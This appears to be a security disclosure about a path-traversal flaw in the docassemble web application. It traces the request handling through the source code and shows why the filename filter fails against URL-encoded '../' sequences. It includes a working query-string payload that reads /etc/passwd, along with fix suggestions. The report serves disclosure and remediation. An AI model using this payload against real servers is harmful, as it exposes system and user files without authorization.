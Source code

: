 # Unauthorized access through URL manipulation
​	Unauthorized access still exists in the new version. In order to prove the cause of the vulnerability, I gave my understanding of the source code.

```python
# server.py

@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
        ...
        
# backend.py
def guess_yaml_filename():
    yaml_filename = None
    if 'i' in session and 'uid' in session:  # TEMPORARY
        yaml_filename = session['i']
    if 'sessions' in session:
        for item in session['sessions']:
            yaml_filename = item
            break
    return yaml_filename
```

​	As long as the i parameter appears in the query parameter, it will try to read the i parameter. If the value of the i parameter is None, the corresponding file name will be obtained from i and uid in the session.

```python
# server.py
@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
    ...
		else:
            yaml_filename = re.sub(r':([^\/]+)$', r':data/questions/\1', yaml_filename)
            docassemble.base.functions.this_thread.current_info['yaml_filename'] = yaml_filename
        show_flash = False
        interview = docassemble.base.interview_cache.get_interview(yaml_filename)
```


​	Then a substitution will be attempted, replacing parameter values starting with "/" with ":data/questions/", Then the docassemble.base.interview_cache.get_interview method will be called

```python
# interview_cache.py
def get_interview(path):
    if path is None:
        raise DAException("Tried to load interview source with no path")
    if cache_valid(path):
        the_interview = cache[path]['interview']
        the_interview.from_cache = True
    else:
        interview_source = docassemble.base.parse.interview_source_from_string(path)
        interview_source.update()
        the_interview = interview_source.get_interview()
        the_interview.from_cache = False
        cache[interview_source.path] = {'index': interview_source.get_index(), 'interview': the_interview, 'source': interview_source}
    return the_interview

def cache_valid(questionPath):
    if questionPath in cache and cache[questionPath]['index'] == cache[questionPath]['source'].get_index():
        return True
    return False
```


​	The current user is not logged in, so there is no cache. The branch in else will be executed, and the docassemble.base.parse.interview_source_from_string method will be executed.

```python
# parse.py
def interview_source_from_string(path, **kwargs):
    if path is None:
        raise DAError("Passed None to interview_source_from_string")
    # logmessage("Trying to find " + path)
    path = re.sub(r'(docassemble.playground[0-9]+[^:]*:)data/questions/(.*)', r'\1\2', path)
    for the_filename in question_path_options(path):
        if the_filename is not None:
            new_source = InterviewSourceFile(filepath=the_filename, path=path)
            if new_source.update(**kwargs):
                return new_source
    raise DANotFoundError("Interview " + str(path) + " not found")
```


​	The branch will be judged based on whether the file exists. If the file does not exist, DANotFoundError("Interview " + str(path) + " not found") will be thrown. If the file exists, an object will be instantiated based on the file path.

```	python
def filename_invalid(filename):
    if '../' in filename or filename.startswith('/'):
        return True
    if re.search(r'[^A-Za-z0-9\_\.\-\/ ]', filename):
        return True
```


​	Although parameter values starting with "/" have been filtered, the file content can still be accessed by constructing the following payload

```http
?i=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```


​	I installed it through the docker installation method recommended on the official website.

>docker run -d -p 80:80 -p 443:443 --restart always --stop-timeout 600 jhpyle/docassemble


​	This is a test of the latest version I downloaded in docker

![8b3ca76876c7b5b656825a8a3103a3e](E:\360MoveData\Users\HideInDarkness\Documents\WeChat Files\wxid_mfxuz6wprqug12\FileStorage\Temp\8b3ca76876c7b5b656825a8a3103a3e.png)

##  suggestion:

1. Filter special characters, such as "./", "../"
2. The obtained parameters are first decoded by the URL.
